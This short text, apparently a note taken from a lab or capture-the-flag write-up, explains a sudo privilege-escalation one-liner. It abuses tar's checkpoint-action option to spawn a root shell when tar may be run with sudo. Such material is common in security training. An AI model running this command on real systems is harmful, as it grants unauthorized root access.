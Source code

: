 ```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
This command uses tar which we can run with sudo privs.
it basically tries to tar data from /dev/null to /dev/null and after reaching checkpoint which is almost immediate because of /dev/null and upon checkpoint it executes a new shell.